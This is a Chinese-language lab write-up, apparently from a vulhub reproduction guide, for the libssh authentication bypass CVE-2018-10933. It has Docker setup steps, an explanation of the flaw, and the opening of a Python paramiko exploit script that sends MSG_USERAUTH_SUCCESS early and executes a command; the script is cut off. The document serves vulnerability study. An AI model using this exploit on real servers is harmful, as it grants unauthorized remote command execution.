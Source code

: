 docker是一个系统服务，所以，安装完成后可能需要手工启动服务：`service start docker`，否则会出现连接失败的情况。

```shell
docker-compose build && docker-compose up -d
ERROR: Couldn't connect to Docker daemon at http+docker://localhost - is it running?

If it's at a non-standard location, specify the URL with the DOCKER_HOST environment variable.
service docker start	# 启动服务
```

#### 漏洞原理

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送MSG_USERAUTH_SUCCESS消息，绕过认证过程，未授权访问目标SSH服务器。

#### 复现过程

##### 启动环境

进入路径为：

```
cd /usr/local/vulhub/libssh/CVE-2018-10933
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
```

这可能会花费一些时间，如果网络不好可能会卡很久。

环境启动后，访问`http://your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@127.0.0.1
Warning: Permanently added '[127.0.0.1]:2222' (RSA) to the list of known hosts.
myuser@127.0.0.1's password: 
# 
# id
uid=0(root) gid=0(root) groups=0(root)
```

##### 漏洞复现脚本

```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048

def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)
```